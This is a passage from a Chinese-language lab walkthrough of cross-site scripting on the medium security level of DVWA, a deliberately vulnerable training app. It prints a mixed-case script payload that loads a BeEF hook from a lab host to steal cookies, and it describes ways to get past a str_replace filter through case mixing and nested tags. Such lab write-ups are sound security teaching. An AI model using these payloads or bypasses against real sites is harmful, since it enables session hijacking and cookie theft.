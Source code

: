 可以看到成功弹窗了，证明存在XSS，下面使用beef来配合攻击。

真实的窃取cookie：
首先插入payload: 

```html
 <SCriPt> src="http://172.16.11.2:3000/hook.js"</SCriPt>
```

之后我们使用BEEF来盗取cookie。
步骤如之前一样，这里就不在赘述。这次大家可以注意到与上次不同cookie里面有一部分不同，等级从LOW变成了medium。
必须得到一个格式为php=xxxxxxxxxx;security=medium的cookie



View Source 查看源码:

![image-20220130134536497](../../images/image-20220130134536497.png)

str_replace() 函数以其他字符替换字符串中的一些字符（区分大小写）。
在这里就是过滤script这个字符串。
因为没有对script的大小写进行限制和识别，这里可以用大小写混合，
比如`<ScRiPt>`标签进行绕过。

不妨试试`<scr<script>ipt>`类似风格的测试。

## 6.dvwa的高级别

high级别的代码分析

![image-20220130135207987](../../images/image-20220130135207987.png)
